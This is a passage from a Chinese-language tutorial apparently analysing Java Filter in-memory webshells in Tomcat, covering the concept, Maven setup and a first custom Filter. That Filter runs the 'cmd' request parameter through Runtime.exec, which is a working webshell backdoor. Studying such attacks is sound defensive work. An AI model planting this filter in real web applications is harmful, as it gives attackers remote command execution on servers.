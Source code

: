 # 原创
：  java Filter内存马分析

# java Filter内存马分析

**知识基础：**

刚开始内存马的这块学习与反序列化并无太大关系，反而与javaweb，tomcat联系更加紧密。所以在学习内存马之前需要先了解JSP，java web的三大件，Servlet，Filter，Listener的基本知识和工作流程和Tomcat 架构的相关内容。

### 0x01 什么是Filter马

内存马就是无文件木马，无文件落地，它通常会存在进程，内存或者java虚拟机中，特点更加隐蔽，难以排查，并且也难以删除。而今天学习的Filter内存马是传统web应用型内存马，主要将恶意代码注入到过滤器中，当过滤器拦截servlet请求的参数时，过滤器中的恶意代码就会执行。

### 0x02 环境搭建

首先配置一个 servlet 的web项目，<br/>  

<br/> 然后一直点下一步就好了，它会自动帮我们生成一个简单的servlet<br/> pom.xml中导入tomcat相关依赖

```
&lt;dependency&gt;
            &lt;groupId&gt;org.apache.tomcat&lt;/groupId&gt;
            &lt;artifactId&gt;tomcat-catalina&lt;/artifactId&gt;
            &lt;version&gt;9.0.38&lt;/version&gt;
            &lt;scope&gt;provided&lt;/scope&gt;
        &lt;/dependency&gt;
        &lt;dependency&gt;
            &lt;groupId&gt;org.apache.tomcat&lt;/groupId&gt;
            &lt;artifactId&gt;tomcat-websocket&lt;/artifactId&gt;
            &lt;version&gt;9.0.38&lt;/version&gt;
        &lt;/dependency&gt;

```

方便之后调试代码，在这之后我们创建一个自定义的Filter过滤器

```
package com.example.memoryhorse;
import javax.servlet.*;
import java.io.IOException;

public class MyFilter implements Filter{
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤功能");
        servletRequest.setCharacterEncoding("utf-8");
        servletResponse.setCharacterEncoding("utf-8");
        servletResponse.setContentType("text/html;charset=UTF-8");
        filterChain.doFilter(servletRequest,servletResponse);
        System.out.println(servletRequest.getParameter("cmd"));
        Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
    }
}

```

